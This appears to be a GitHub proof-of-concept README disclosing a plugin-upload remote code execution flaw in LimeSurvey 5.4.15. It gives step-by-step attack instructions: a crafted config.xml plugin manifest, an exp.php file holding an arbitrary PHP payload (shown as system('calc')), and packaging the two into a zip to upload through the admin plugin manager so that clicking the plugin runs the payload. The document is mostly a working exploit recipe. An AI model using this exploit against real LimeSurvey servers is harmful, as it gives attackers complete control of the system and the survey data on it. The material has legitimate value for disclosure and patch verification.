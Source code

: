 # LimeSurvey-5.4.15-PluginUploadtoRCE
In LimeSurvey-5.4.15, it has a vulnerability in index.php/admin/pluginmanager which can lead to RCE

**Impact:**
Complete control of the system.

**The directory structure of the files we need is as follows:**

![image](https://user-images.githubusercontent.com/71068573/209111954-855ad10c-f1ed-4ac8-b566-38c0eea82455.png)

**Here are the attack steps:**

1. Create a config.xml as follows, and remember the **name->exp**:

```
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>exp</name>
        <type>plugin</type>
        <creationDate>2021-11-18</creationDate>
        <lastUpdate>2021-11-23</lastUpdate>
        <author>Denis Chenu (for Respondage)</author>
        <authorUrl>https://www.respondage.nl</authorUrl>
        <supportUrl>https://www.limesurvey.org</supportUrl>
        <version>0.2.1</version>
        <license>GNU General Public License version 3 or later</license>
        <description><![CDATA[Expression Script: make answer option text available; see settings for documentation and usage.]]></description>
    </metadata>

    <compatibility>
        <version>5.0</version>
    </compatibility>

    <updaters disabled="disabled">
    </updaters>
</config>
```

2. Create a php file with the same **name(exp)** exp.php and fill your payload, like the following example:

```
<?php
system('calc');
?>
```

3. Compress config.xml and exp.php into one compressed package like exp.zip:


4. Upload this exp.zip file in /index.php/admin/pluginmanager?sa=index :

![image](https://user-images.githubusercontent.com/71068573/209114125-96840b66-2f3c-40b4-a67f-0324c2fc544d.png)

5. Finally, when you click the plugin that uploaded, the php payload will be triggered:

![image](https://user-images.githubusercontent.com/71068573/209113806-1f5eb404-b375-4d86-91e5-75e188ba115d.png)

![image](https://user-images.githubusercontent.com/71068573/209114242-a7c5d46f-8aa6-44e7-bff3-a5524a36e5f2.png)

